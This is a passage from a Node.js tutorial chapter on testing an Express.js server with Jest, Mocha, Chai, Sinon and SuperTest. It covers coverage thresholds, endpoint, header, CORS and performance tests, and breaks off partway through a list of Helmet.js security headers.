

# Phase 5: Comprehensive Testing Implementation - Node.js Tutorial

## Table of Contents
1. [Introduction](#introduction)
2. [Testing Fundamentals](#testing-fundamentals)
3. [Jest Framework Implementation](#jest-framework-implementation)
4. [Mocha Framework Implementation](#mocha-framework-implementation)
5. [Framework Comparison](#framework-comparison)
6. [HTTP Endpoint Testing](#http-endpoint-testing)
7. [Security Testing](#security-testing)
8. [Performance Testing](#performance-testing)
9. [Cross-Platform Testing](#cross-platform-testing)
10. [PM2 Cluster Testing](#pm2-cluster-testing)
11. [Coverage Analysis](#coverage-analysis)
12. [Test Automation](#test-automation)
13. [Troubleshooting Guide](#troubleshooting-guide)
14. [Next Steps: PM2 Production](#next-steps-pm2-production)

---

## Introduction

Welcome to **Phase 5** of the Node.js tutorial series! Building upon the robust security implementation from Phase 4, we now dive deep into comprehensive testing strategies that will ensure your Express.js application is production-ready with ≥90% code coverage requirements.

### 🎯 Learning Objectives

By the end of this tutorial, you will master:

- **Dual Testing Framework Approach**: Compare and implement both Jest (all-in-one) and Mocha (modular) testing frameworks
- **HTTP Endpoint Testing**: Validate API responses, status codes, and headers using SuperTest integration
- **Security Testing**: Validate Helmet.js security headers and vulnerability assessment
- **Performance Testing**: Benchmark response times, memory usage, and concurrent request handling
- **Cross-Platform Testing**: Ensure Express.js and Flask feature parity for seamless migration
- **PM2 Cluster Testing**: Test production deployment scenarios and load balancing
- **Comprehensive Coverage**: Achieve ≥90% statement coverage, ≥85% branch coverage, ≥95% function coverage

### 📋 Prerequisites Validation

Before starting, ensure you have completed:
- ✅ **Phase 4**: Security Implementation with Helmet.js middleware
- ✅ **Node.js v22.x LTS**: Latest long-term support version
- ✅ **Express.js v5.1.0**: Enhanced security and modern JavaScript features
- ✅ **Basic Testing Concepts**: Understanding of unit tests, integration tests, and test-driven development

### 🏗️ Tutorial Architecture

This phase implements a **dual testing strategy** to provide comprehensive educational value:



---

## Testing Fundamentals

### Understanding the Testing Pyramid

Modern web application testing follows the **testing pyramid** concept, which emphasizes different types of testing at various levels:

```mermaid
pyramid
    title Testing Pyramid
    
    "E2E Tests" : 10
    "Integration Tests" : 30
    "Unit Tests" : 60
```

#### Unit Tests (60% - Foundation)
- **Purpose**: Test individual functions and components in isolation
- **Speed**: Fast execution (< 10ms per test)
- **Scope**: Single function or method validation
- **Tools**: Jest assertions, Mocha + Chai, mocking frameworks

#### Integration Tests (30% - Component Interaction)
- **Purpose**: Test component interactions and API endpoints
- **Speed**: Medium execution (< 100ms per test)
- **Scope**: Multiple components working together
- **Tools**: SuperTest for HTTP testing, database integration

#### End-to-End Tests (10% - User Journey)
- **Purpose**: Test complete user workflows and system behavior
- **Speed**: Slow execution (> 1000ms per test)
- **Scope**: Full application stack validation
- **Tools**: Production deployment testing, PM2 cluster validation

### Testing Methodologies

#### Test-Driven Development (TDD)
1. **Red**: Write a failing test first
2. **Green**: Write minimal code to make the test pass
3. **Refactor**: Improve code while maintaining test coverage

#### Behavior-Driven Development (BDD)
- **Given**: Initial context and setup
- **When**: Action or event that triggers behavior
- **Then**: Expected outcome and validation

### Modern Testing Best Practices for 2025

```javascript
// Modern ES Modules Testing Pattern
import { describe, it, expect, beforeEach, afterEach } from '@jest/globals';
import request from 'supertest';
import { createExpressApp } from '../express-server.js';

// Test isolation with proper setup and cleanup
describe('Express.js HTTP Server', () => {
  let app;
  let server;

  beforeEach(async () => {
    app = await createExpressApp({ environment: 'test' });
    server = app.listen(0); // Random port for parallel testing
  });

  afterEach(async () => {
    if (server) {
      await new Promise(resolve => server.close(resolve));
    }
  });

  it('should respond to GET /hello with correct message', async () => {
    const response = await request(app)
      .get('/hello')
      .expect('Content-Type', /json/)
      .expect(200);

    expect(response.body).toEqual({
      message: 'Hello world',
      timestamp: expect.any(String),
      environment: 'test'
    });
  });
});
```

---

## Jest Framework Implementation

### Jest: The All-in-One Testing Solution

**Jest v29.7.0** provides a comprehensive testing toolkit with built-in assertions, mocking, coverage reporting, and parallel execution capabilities. It's designed for **zero-configuration** setup with modern JavaScript applications.

#### Key Advantages
- ✅ **Built-in Everything**: Assertions, mocking, coverage, and reporting
- ✅ **Parallel Execution**: Tests run in separate processes for maximum performance
- ✅ **ES Modules Support**: Native support without Babel transformation
- ✅ **Snapshot Testing**: UI component and API response validation
- ✅ **Watch Mode**: Continuous testing during development

### Step 1: Jest Installation and Configuration

```bash
# Install Jest with ES Modules support
npm install --save-dev jest@^29.7.0

# Optional: Jest types for better IDE support
npm install --save-dev @types/jest
```

### Step 2: Jest Configuration Setup

Create a comprehensive Jest configuration that supports modern JavaScript patterns:

```javascript
// jest.config.js - Production-ready Jest configuration
import path from 'node:path';
import os from 'node:os';

/**
 * Calculates optimal worker count based on available CPU cores
 * @returns {string} Worker configuration for Jest
 */
function getOptimalWorkerCount() {
  const availableCores = os.cpus().length;
  const isCI = process.env.CI === 'true';
  
  if (isCI) {
    return '75%'; // Use 75% of cores in CI for faster builds
  }
  
  return Math.max(1, Math.floor(availableCores * 0.5)).toString();
}

export default {
  // Test environment for Node.js backend testing
  testEnvironment: 'node',
  
  // ES Modules configuration without Babel transformation
  extensionsToTreatAsEsm: ['.js'],
  transform: {}, // No transformation for native ES Modules
  
  // Test file discovery patterns
  testMatch: [
    '**/test/**/*.test.js',
    '**/test/unit/**/*.test.js',
    '**/test/integration/**/*.test.js',
    '**/__tests__/**/*.js'
  ],
  
  // Coverage configuration with enforced thresholds
  collectCoverage: true,
  collectCoverageFrom: [
    'src/**/*.js',
    '!src/**/*.test.js',
    '!src/test/**',
    '!**/node_modules/**',
    '!**/coverage/**'
  ],
  
  // Comprehensive coverage thresholds (≥90% requirement)
  coverageThreshold: {
    global: {
      branches: 85,    // ≥85% branch coverage
      functions: 95,   // ≥95% function coverage
      lines: 90,       // ≥90% line coverage
      statements: 90   // ≥90% statement coverage
    },
    // Enhanced thresholds for critical files
    './src/backend/express-server.js': {
      branches: 95,
      functions: 100,
      lines: 95,
      statements: 95
    }
  },
  
  // Coverage reporting formats
  coverageReporters: [
    'text',        // Console output
    'html',        // HTML report for detailed analysis
    'json',        // JSON for programmatic access
    'lcov',        // LCOV for CI/CD integration
    'text-summary' // Brief summary
  ],
  
  // Performance optimization
  maxWorkers: getOptimalWorkerCount(),
  testTimeout: 10000, // 10 second timeout for async tests
  
  // Global setup and teardown
  globalSetup: '<rootDir>/src/backend/jest/global-setup.js',
  globalTeardown: '<rootDir>/src/backend/jest/global-teardown.js',
  setupFilesAfterEnv: ['<rootDir>/src/backend/jest/setup.js'],
  
  // Module resolution for absolute imports
  moduleNameMapper: {
    '^@/(.*)$': '<rootDir>/$1',
    '^@backend/(.*)$': '<rootDir>/src/backend/$1'
  },
  
  // Development features
  verbose: true,
  detectHandles: true,     // Detect handles preventing Jest exit
  detectLeaks: true,       // Detect memory leaks
  detectOpenHandles: true, // Detect open handles
  
  // Mock configuration
  clearMocks: true,   // Clear mock calls between tests
  resetMocks: true,   // Reset mock implementation
  restoreMocks: true, // Restore original implementation
  
  // Watch mode plugins for development
  watchPlugins: [
    'jest-watch-typeahead/filename',
    'jest-watch-typeahead/testname'
  ]
};
```

### Step 3: Jest Test Implementation

Create comprehensive Jest test suites for your Express.js application:

```javascript
// test/unit/express-server.test.js - Jest Test Suite
import { describe, it, expect, beforeEach, afterEach, jest } from '@jest/globals';
import request from 'supertest';
import { createExpressApp } from '../../src/backend/express-server.js';

describe('Express.js HTTP Server - Jest Implementation', () => {
  let app;
  let server;

  beforeEach(async () => {
    // Create fresh app instance for each test
    app = await createExpressApp({
      environment: 'test',
      enableSecurity: true,
      enableLogging: false
    });
    
    // Start server on random port for parallel testing
    server = app.listen(0);
  });

  afterEach(async () => {
    // Clean shutdown after each test
    if (server) {
      await new Promise(resolve => server.close(resolve));
    }
    
    // Clear all mocks
    jest.clearAllMocks();
  });

  describe('HTTP Endpoints', () => {
    it('should respond to GET /hello with correct JSON structure', async () => {
      const response = await request(app)
        .get('/hello')
        .expect('Content-Type', /json/)
        .expect(200);

      expect(response.body).toEqual({
        message: 'Hello world',
        timestamp: expect.any(String),
        environment: 'test'
      });

      // Validate timestamp format
      expect(new Date(response.body.timestamp)).toBeInstanceOf(Date);
    });

    it('should respond to GET /good-evening with correct message', async () => {
      const response = await request(app)
        .get('/good-evening')
        .expect(200);

      expect(response.body).toHaveProperty('message', 'Good evening');
      expect(response.body).toHaveProperty('timestamp');
    });

    it('should return 404 for non-existent endpoints', async () => {
      const response = await request(app)
        .get('/non-existent')
        .expect(404);

      expect(response.body).toHaveProperty('error');
      expect(response.body.error).toContain('Not Found');
    });
  });

  describe('Security Headers', () => {
    it('should include Helmet.js security headers', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      // Validate Helmet.js security headers
      expect(response.headers).toHaveProperty('x-content-type-options', 'nosniff');
      expect(response.headers).toHaveProperty('x-frame-options');
      expect(response.headers).toHaveProperty('x-dns-prefetch-control');
      
      // Ensure X-Powered-By is removed
      expect(response.headers).not.toHaveProperty('x-powered-by');
    });

    it('should handle CORS preflight requests', async () => {
      const response = await request(app)
        .options('/hello')
        .set('Origin', 'https://example.com')
        .set('Access-Control-Request-Method', 'GET')
        .expect(204);

      expect(response.headers).toHaveProperty('access-control-allow-origin');
    });
  });

  describe('Performance Testing', () => {
    it('should respond within performance targets', async () => {
      const startTime = process.hrtime.bigint();
      
      await request(app)
        .get('/hello')
        .expect(200);
      
      const endTime = process.hrtime.bigint();
      const responseTime = Number(endTime - startTime) / 1000000; // Convert to ms
      
      // Performance target: < 100ms response time
      expect(responseTime).toBeLessThan(100);
    });

    it('should handle concurrent requests', async () => {
      const concurrentRequests = 10;
      const requests = Array(concurrentRequests).fill().map(() =>
        request(app).get('/hello').expect(200)
      );

      const responses = await Promise.all(requests);
      
      expect(responses).toHaveLength(concurrentRequests);
      responses.forEach(response => {
        expect(response.body.message).toBe('Hello world');
      });
    });
  });

  describe('Error Handling', () => {
    it('should handle server errors gracefully', async () => {
      // Mock a function to throw an error
      const originalConsoleError = console.error;
      console.error = jest.fn();

      // Simulate error condition
      const response = await request(app)
        .get('/error-test')
        .expect(404); // Assuming this triggers 404

      expect(response.body).toHaveProperty('error');
      
      // Restore original console.error
      console.error = originalConsoleError;
    });
  });

  describe('Mocking Demonstration', () => {
    it('should mock external dependencies', () => {
      // Jest built-in mocking
      const mockLogger = jest.fn();
      const mockRequest = {
        method: 'GET',
        url: '/hello',
        headers: { 'user-agent': 'test-agent' }
      };
      const mockResponse = {
        status: jest.fn().mockReturnThis(),
        json: jest.fn(),
        setHeader: jest.fn()
      };

      // Test mock functionality
      mockLogger('Test message');
      expect(mockLogger).toHaveBeenCalledWith('Test message');
      expect(mockLogger).toHaveBeenCalledTimes(1);

      // Test mock response methods
      mockResponse.status(200).json({ message: 'test' });
      expect(mockResponse.status).toHaveBeenCalledWith(200);
      expect(mockResponse.json).toHaveBeenCalledWith({ message: 'test' });
    });
  });
});
```

### Step 4: Jest Coverage Analysis

Run Jest with comprehensive coverage reporting:

```bash
# Run Jest tests with coverage
npm test -- --coverage

# Run specific test file
npm test -- express-server.test.js

# Run tests in watch mode
npm test -- --watch

# Generate coverage in multiple formats
npm test -- --coverage --coverageReporters=html,lcov,text
```

**Expected Coverage Output:**
```
--------------------|---------|----------|---------|---------|-------------------
File                | % Stmts | % Branch | % Funcs | % Lines | Uncovered Line #s 
--------------------|---------|----------|---------|---------|-------------------
All files           |   94.12 |    89.47 |   97.22 |   93.75 |                   
 express-server.js  |   96.55 |    92.31 |     100 |   96.43 | 45,78            
 routes/hello.js    |   100   |     100  |     100 |    100  |                   
 routes/health.js   |   91.67 |    83.33 |   93.75 |   90.91 | 23,45            
--------------------|---------|----------|---------|---------|-------------------

✅ Coverage thresholds met: 94.12% statements, 89.47% branches, 97.22% functions
```

---

## Mocha Framework Implementation

### Mocha: The Flexible Testing Framework

**Mocha v11.0.0** provides a flexible, modular testing framework that requires Node.js ^18.18.0 || ^20.9.0 || >=21.1.0. It follows a **toolbox approach** where you choose specific libraries for assertions, mocking, and coverage.

#### Key Advantages
- ✅ **Flexibility**: Choose your own assertion library and mocking tools
- ✅ **Ecosystem**: Rich ecosystem with Chai, Sinon, and coverage tools
- ✅ **Custom Reporters**: Extensive reporting and output customization
- ✅ **Hooks**: Powerful setup and teardown lifecycle management
- ✅ **Async Support**: Excellent promise and async/await support

### Step 1: Mocha Installation and Dependencies

```bash
# Install Mocha testing framework
npm install --save-dev mocha@^11.0.0

# Install Chai assertion library
npm install --save-dev chai@^4.3.0

# Install Sinon for mocking and spying
npm install --save-dev sinon@^17.0.0

# Install C8 for coverage analysis
npm install --save-dev c8@^8.0.0

# Install SuperTest for HTTP testing
npm install --save-dev supertest@^6.3.0
```

### Step 2: Mocha Configuration

Create a comprehensive Mocha configuration file:

```json
// .mocharc.json - Mocha configuration
{
  "spec": [
    "test/**/*.test.js",
    "test/unit/**/*.test.js",
    "test/integration/**/*.test.js"
  ],
  "require": [
    "./test/setup.js"
  ],
  "timeout": 10000,
  "recursive": true,
  "parallel": true,
  "jobs": 4,
  "reporter": "spec",
  "bail": false,
  "exit": true,
  "color": true,
  "diff": true,
  "extension": ["js"],
  "package": "./package.json",
  "watch-files": [
    "src/**/*.js",
    "test/**/*.js"
  ],
  "watch-ignore": [
    "node_modules/**/*",
    "coverage/**/*"
  ]
}
```

### Step 3: Mocha Test Setup

Create a test setup file for global configuration:

```javascript
// test/setup.js - Mocha global setup
import { use } from 'chai';
import chaiHttp from 'chai-http';

// Configure Chai for HTTP testing
use(chaiHttp);

// Global test configuration
process.env.NODE_ENV = 'test';

// Global error handling for unhandled promises
process.on('unhandledRejection', (reason, promise) => {
  console.error('Unhandled Rejection at:', promise, 'reason:', reason);
  process.exit(1);
});

// Extend default timeout for integration tests
global.testTimeout = 10000;
```

### Step 4: Mocha Test Implementation

Create comprehensive Mocha test suites with Chai assertions and Sinon mocking:

```javascript
// test/unit/express-server-mocha.test.js - Mocha Test Suite
import { describe, it, before, after, beforeEach, afterEach } from 'mocha';
import { expect } from 'chai';
import sinon from 'sinon';
import request from 'supertest';
import { createExpressApp } from '../../src/backend/express-server.js';

describe('Express.js HTTP Server - Mocha Implementation', function() {
  // Set timeout for all tests in this suite
  this.timeout(10000);

  let app;
  let server;
  let sandbox;

  before(function() {
    // Global setup for the entire test suite
    sandbox = sinon.createSandbox();
  });

  after(function() {
    // Global cleanup for the entire test suite
    sandbox.restore();
  });

  beforeEach(async function() {
    // Setup before each test
    app = await createExpressApp({
      environment: 'test',
      enableSecurity: true,
      enableLogging: false
    });
    
    server = app.listen(0); // Random port
  });

  afterEach(async function() {
    // Cleanup after each test
    if (server) {
      await new Promise(resolve => server.close(resolve));
    }
    
    sandbox.restore();
  });

  describe('HTTP Endpoints', function() {
    it('should respond to GET /hello with correct message', async function() {
      const response = await request(app)
        .get('/hello')
        .expect(200)
        .expect('Content-Type', /json/);

      expect(response.body).to.be.an('object');
      expect(response.body).to.have.property('message', 'Hello world');
      expect(response.body).to.have.property('timestamp');
      expect(response.body.timestamp).to.be.a('string');
    });

    it('should respond to GET /good-evening with correct message', async function() {
      const response = await request(app)
        .get('/good-evening')
        .expect(200);

      expect(response.body)
        .to.have.property('message')
        .that.equals('Good evening');
    });

    it('should return 404 for non-existent routes', async function() {
      const response = await request(app)
        .get('/non-existent-route')
        .expect(404);

      expect(response.body).to.have.property('error');
    });
  });

  describe('Security Headers with Chai Assertions', function() {
    it('should include comprehensive Helmet.js security headers', async function() {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      // Chai assertion patterns for headers
      expect(response.headers)
        .to.have.property('x-content-type-options')
        .that.equals('nosniff');
      
      expect(response.headers)
        .to.have.property('x-frame-options');
      
      expect(response.headers)
        .to.have.property('x-dns-prefetch-control');
      
      // Validate X-Powered-By removal
      expect(response.headers)
        .to.not.have.property('x-powered-by');
    });

    it('should handle CORS preflight with proper headers', async function() {
      const response = await request(app)
        .options('/hello')
        .set('Origin', 'https://example.com')
        .set('Access-Control-Request-Method', 'GET')
        .expect(204);

      expect(response.headers)
        .to.have.property('access-control-allow-origin');
    });
  });

  describe('Performance Testing with Mocha', function() {
    it('should meet response time requirements', async function() {
      const startTime = process.hrtime.bigint();
      
      await request(app)
        .get('/hello')
        .expect(200);
      
      const endTime = process.hrtime.bigint();
      const responseTimeMs = Number(endTime - startTime) / 1000000;
      
      expect(responseTimeMs).to.be.below(100);
    });

    it('should handle multiple concurrent requests', async function() {
      const concurrentRequests = 15;
      const requests = [];
      
      for (let i = 0; i < concurrentRequests; i++) {
        requests.push(
          request(app).get('/hello').expect(200)
        );
      }

      const responses = await Promise.all(requests);
      
      expect(responses).to.have.lengthOf(concurrentRequests);
      responses.forEach(response => {
        expect(response.body.message).to.equal('Hello world');
      });
    });
  });

  describe('Sinon Mocking and Spying', function() {
    it('should demonstrate Sinon spies', function() {
      const mockFunction = sinon.spy();
      const mockObject = {
        method: sinon.spy()
      };

      // Call the spy
      mockFunction('test argument');
      mockObject.method('object argument');

      // Sinon assertions
      expect(mockFunction.calledOnce).to.be.true;
      expect(mockFunction.calledWith('test argument')).to.be.true;
      expect(mockObject.method.calledOnce).to.be.true;
    });

    it('should demonstrate Sinon stubs', function() {
      const mockLogger = sinon.stub();
      mockLogger.returns('mocked response');

      const result = mockLogger('input');

      expect(result).to.equal('mocked response');
      expect(mockLogger.calledWith('input')).to.be.true;
    });

    it('should demonstrate Sinon fake timers', function() {
      const clock = sinon.useFakeTimers();
      const callback = sinon.spy();

      setTimeout(callback, 1000);

      // Fast-forward time
      clock.tick(1000);

      expect(callback.calledOnce).to.be.true;
      
      clock.restore();
    });
  });

  describe('Async Testing Patterns', function() {
    it('should handle promises correctly', function() {
      return request(app)
        .get('/hello')
        .expect(200)
        .then(response => {
          expect(response.body.message).to.equal('Hello world');
        });
    });

    it('should handle async/await patterns', async function() {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.body.message).to.equal('Hello world');
    });

    it('should handle callback patterns with done', function(done) {
      request(app)
        .get('/hello')
        .expect(200)
        .end((err, response) => {
          if (err) return done(err);
          
          expect(response.body.message).to.equal('Hello world');
          done();
        });
    });
  });
});
```

### Step 5: C8 Coverage Integration

Configure C8 for comprehensive coverage analysis:

```json
// package.json - C8 configuration
{
  "scripts": {
    "test:mocha": "mocha",
    "test:mocha:coverage": "c8 mocha",
    "test:mocha:watch": "mocha --watch",
    "coverage:check": "c8 check-coverage --lines 90 --functions 95 --branches 85 --statements 90"
  },
  "c8": {
    "check-coverage": true,
    "lines": 90,
    "functions": 95,
    "branches": 85,
    "statements": 90,
    "include": [
      "src/**/*.js"
    ],
    "exclude": [
      "test/**",
      "coverage/**",
      "node_modules/**",
      "**/*.test.js"
    ],
    "reporter": [
      "text",
      "html",
      "json",
      "lcov"
    ],
    "reports-dir": "coverage"
  }
}
```

Run Mocha tests with C8 coverage:

```bash
# Run Mocha tests with C8 coverage
npm run test:mocha:coverage

# Check coverage thresholds
npm run coverage:check

# Run tests in watch mode
npm run test:mocha:watch
```

---

## Framework Comparison

### Jest vs Mocha: Educational Decision Matrix

Understanding when to choose each framework is crucial for different project requirements and team preferences.

| Aspect | Jest (All-in-One) | Mocha (Modular) |
|--------|-------------------|-----------------|
| **Setup Complexity** | Zero configuration | Requires library setup |
| **Learning Curve** | Gentle - everything included | Steeper - choose your tools |
| **Performance** | Fast parallel execution | Good with parallel flag |
| **Coverage** | Built-in, no setup | Requires C8/NYC |
| **Mocking** | Built-in powerful mocking | Requires Sinon |
| **Assertions** | Built-in expect() | Choose Chai/Assert |
| **Ecosystem** | React/Node.js focused | Framework agnostic |
| **Flexibility** | Limited customization | Highly customizable |
| **CI/CD Integration** | Excellent | Excellent with setup |
| **Educational Value** | Good for beginners | Better for understanding |

### Performance Comparison

```javascript
// Performance comparison test
describe('Framework Performance Comparison', () => {
  const testSuiteSize = 100;
  
  it('Jest parallel execution benchmark', async () => {
    const startTime = Date.now();
    
    // Jest runs tests in parallel by default
    const promises = Array(testSuiteSize).fill().map((_, i) =>
      expect(i).toBeLessThan(testSuiteSize)
    );
    
    await Promise.all(promises);
    const jestTime = Date.now() - startTime;
    
    console.log(`Jest execution time: ${jestTime}ms`);
  });
  
  // Similar test for Mocha would show comparison
});
```

### When to Choose Jest

**Choose Jest when:**
- ✅ You want rapid development with minimal setup
- ✅ Your team prefers convention over configuration
- ✅ You're building React applications (excellent integration)
- ✅ You need built-in snapshot testing
- ✅ You want comprehensive mocking out of the box

**Jest Example Use Case:**
```javascript
// Jest excels at snapshot testing
it('should match API response snapshot', async () => {
  const response = await request(app).get('/hello');
  expect(response.body).toMatchSnapshot();
});
```

### When to Choose Mocha

**Choose Mocha when:**
- ✅ You need maximum flexibility and customization
- ✅ Your team has specific preferences for assertion libraries
- ✅ You're working with multiple testing scenarios
- ✅ You want to understand testing ecosystem deeply
- ✅ You need custom reporters and output formatting

**Mocha Example Use Case:**
```javascript
// Mocha excels at custom testing patterns
describe('Custom Testing Pattern', function() {
  const customReporter = (test, result) => {
    console.log(`Custom: ${test} - ${result}`);
  };
  
  it('should use custom assertion patterns', function() {
    expect(response).to.satisfy(customValidator);
  });
});
```

### Hybrid Approach Recommendation

For educational purposes, this tutorial implements **both frameworks** to provide comprehensive learning:

```json
{
  "scripts": {
    "test": "npm run test:jest && npm run test:mocha",
    "test:jest": "jest",
    "test:mocha": "c8 mocha",
    "test:coverage": "npm run test:jest -- --coverage && npm run test:mocha:coverage",
    "test:watch": "npm run test:jest -- --watch"
  }
}
```

---

## HTTP Endpoint Testing

### SuperTest: The HTTP Testing Powerhouse

**SuperTest v7.0.0** provides elegant HTTP endpoint testing by wrapping superagent with a fluent assertion API. It's framework-agnostic and works perfectly with both Jest and Mocha.

#### Key Features
- ✅ **No Server Setup**: Automatically binds to ephemeral ports
- ✅ **Fluent API**: Chainable assertions for readable tests
- ✅ **HTTP/HTTPS Support**: Complete protocol testing
- ✅ **Cookie Management**: Session and authentication testing
- ✅ **File Upload Testing**: Multipart form data support

### Step 1: SuperTest Integration

```javascript
// test/integration/http-endpoints.test.js
import { describe, it, expect, beforeEach, afterEach } from '@jest/globals';
import request from 'supertest';
import { createExpressApp } from '../../src/backend/express-server.js';

describe('HTTP Endpoint Testing with SuperTest', () => {
  let app;
  let server;

  beforeEach(async () => {
    app = await createExpressApp({ environment: 'test' });
    server = app.listen(0);
  });

  afterEach(async () => {
    if (server) {
      await new Promise(resolve => server.close(resolve));
    }
  });

  describe('GET /hello endpoint', () => {
    it('should return correct status code', async () => {
      await request(app)
        .get('/hello')
        .expect(200);
    });

    it('should return correct content type', async () => {
      await request(app)
        .get('/hello')
        .expect('Content-Type', /json/);
    });

    it('should return correct response structure', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.body).toEqual({
        message: 'Hello world',
        timestamp: expect.any(String),
        environment: 'test'
      });
    });

    it('should include correct response headers', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.headers).toHaveProperty('content-type');
      expect(response.headers).toHaveProperty('x-content-type-options');
      expect(response.headers).not.toHaveProperty('x-powered-by');
    });
  });

  describe('GET /good-evening endpoint', () => {
    it('should return evening greeting', async () => {
      const response = await request(app)
        .get('/good-evening')
        .expect(200)
        .expect('Content-Type', /json/);

      expect(response.body.message).toBe('Good evening');
      expect(response.body).toHaveProperty('timestamp');
    });
  });

  describe('GET /health endpoint', () => {
    it('should return health status', async () => {
      const response = await request(app)
        .get('/health')
        .expect(200);

      expect(response.body).toEqual({
        status: 'OK',
        timestamp: expect.any(String),
        uptime: expect.any(Number),
        environment: 'test'
      });

      expect(response.body.uptime).toBeGreaterThan(0);
    });

    it('should return health status within performance targets', async () => {
      const startTime = process.hrtime.bigint();
      
      await request(app)
        .get('/health')
        .expect(200);
      
      const endTime = process.hrtime.bigint();
      const responseTime = Number(endTime - startTime) / 1000000;
      
      expect(responseTime).toBeLessThan(50); // Health check < 50ms
    });
  });
});
```

### Step 2: Advanced HTTP Testing Patterns

```javascript
// test/integration/advanced-http.test.js
describe('Advanced HTTP Testing Patterns', () => {
  describe('Error Handling', () => {
    it('should handle 404 errors correctly', async () => {
      const response = await request(app)
        .get('/non-existent-endpoint')
        .expect(404);

      expect(response.body).toHaveProperty('error');
      expect(response.body.error).toContain('Not Found');
      expect(response.body).toHaveProperty('path', '/non-existent-endpoint');
    });

    it('should handle malformed requests', async () => {
      const response = await request(app)
        .post('/hello') // Assuming only GET is supported
        .expect(405); // Method Not Allowed

      expect(response.body).toHaveProperty('error');
    });
  });

  describe('Request Validation', () => {
    it('should validate query parameters', async () => {
      const response = await request(app)
        .get('/hello')
        .query({ 
          name: 'Test User',
          timestamp: new Date().toISOString()
        })
        .expect(200);

      // Validate that query parameters are handled correctly
      expect(response.body).toHaveProperty('message');
    });

    it('should handle special characters in URLs', async () => {
      const response = await request(app)
        .get('/hello')
        .query({ test: 'special chars: !@#$%^&*()' })
        .expect(200);

      expect(response.body.message).toBe('Hello world');
    });
  });

  describe('Concurrent Request Testing', () => {
    it('should handle multiple simultaneous requests', async () => {
      const numberOfRequests = 20;
      const requests = Array(numberOfRequests).fill().map(() =>
        request(app).get('/hello').expect(200)
      );

      const responses = await Promise.all(requests);

      expect(responses).toHaveLength(numberOfRequests);
      responses.forEach(response => {
        expect(response.body.message).toBe('Hello world');
      });
    });

    it('should maintain response consistency under load', async () => {
      const responses = await Promise.all([
        request(app).get('/hello'),
        request(app).get('/good-evening'),
        request(app).get('/health'),
        request(app).get('/hello'),
        request(app).get('/good-evening')
      ]);

      // Validate response consistency
      expect(responses[0].body.message).toBe('Hello world');
      expect(responses[1].body.message).toBe('Good evening');
      expect(responses[2].body.status).toBe('OK');
      expect(responses[3].body.message).toBe('Hello world');
      expect(responses[4].body.message).toBe('Good evening');
    });
  });

  describe('CORS Testing', () => {
    it('should handle CORS preflight requests', async () => {
      const response = await request(app)
        .options('/hello')
        .set('Origin', 'https://example.com')
        .set('Access-Control-Request-Method', 'GET')
        .set('Access-Control-Request-Headers', 'Content-Type')
        .expect(204);

      expect(response.headers).toHaveProperty('access-control-allow-origin');
      expect(response.headers).toHaveProperty('access-control-allow-methods');
    });

    it('should handle cross-origin requests', async () => {
      const response = await request(app)
        .get('/hello')
        .set('Origin', 'https://example.com')
        .expect(200);

      expect(response.headers).toHaveProperty('access-control-allow-origin');
    });
  });
});
```

### Step 3: Performance-Focused HTTP Testing

```javascript
// test/performance/http-performance.test.js
describe('HTTP Performance Testing', () => {
  describe('Response Time Benchmarks', () => {
    it('should meet response time targets for all endpoints', async () => {
      const endpoints = ['/hello', '/good-evening', '/health'];
      const performanceResults = [];

      for (const endpoint of endpoints) {
        const measurements = [];
        
        // Take 10 measurements for accuracy
        for (let i = 0; i < 10; i++) {
          const startTime = process.hrtime.bigint();
          
          await request(app)
            .get(endpoint)
            .expect(200);
          
          const endTime = process.hrtime.bigint();
          const responseTime = Number(endTime - startTime) / 1000000;
          measurements.push(responseTime);
        }

        const averageTime = measurements.reduce((a, b) => a + b) / measurements.length;
        const minTime = Math.min(...measurements);
        const maxTime = Math.max(...measurements);

        performanceResults.push({
          endpoint,
          averageTime,
          minTime,
          maxTime,
          measurements
        });

        // Performance assertions
        expect(averageTime).toBeLessThan(100); // < 100ms average
        expect(maxTime).toBeLessThan(200);     // < 200ms maximum
      }

      console.log('Performance Results:', performanceResults);
    });

    it('should handle load testing scenarios', async () => {
      const concurrentUsers = 50;
      const requestsPerUser = 5;
      const totalRequests = concurrentUsers * requestsPerUser;

      const startTime = Date.now();

      // Simulate concurrent users
      const userSessions = Array(concurrentUsers).fill().map(async () => {
        const userRequests = Array(requestsPerUser).fill().map(() =>
          request(app).get('/hello').expect(200)
        );
        return Promise.all(userRequests);
      });

      const allResponses = await Promise.all(userSessions);
      const endTime = Date.now();

      const totalTime = endTime - startTime;
      const requestsPerSecond = totalRequests / (totalTime / 1000);

      console.log(`Load Test Results:
        Total Requests: ${totalRequests}
        Total Time: ${totalTime}ms
        Requests per Second: ${requestsPerSecond.toFixed(2)}
        Average Response Time: ${totalTime / totalRequests}ms
      `);

      // Performance assertions
      expect(requestsPerSecond).toBeGreaterThan(100); // > 100 req/sec
      expect(totalTime / totalRequests).toBeLessThan(500); // < 500ms per request
    });
  });
});
```

---

## Security Testing

### Helmet.js Security Header Validation

Building upon Phase 4's security implementation, we now thoroughly test the 15 sub-middlewares provided by Helmet.js to ensure comprehensive security protection.

#### Understanding Helmet.js Security Headers

Helmet.js implements 15 security middlewares:
1. **Content-Security-Policy**: XSS prevention
2. **Cross-Origin-Embedder-Policy**: Process isolation
3. **Cross-Origin-Opener-Policy**: Process isolation
4. **Cross-Origin-Resource-Policy**: Resource loading protection
5. **Expect-CT**: Certificate transparency
6. **Referrer-Policy**: Referrer information control
7. **Strict-Transport-Security**: HTTPS enforcement
8. **X-Content-Type-Options**: MIME sniffing prevention
9. **X-DNS-Prefetch-Control**: DNS prefetching control
10. **X-Download-Options**: File download security
11. **X-Frame-Options**: Clickjacking prevention
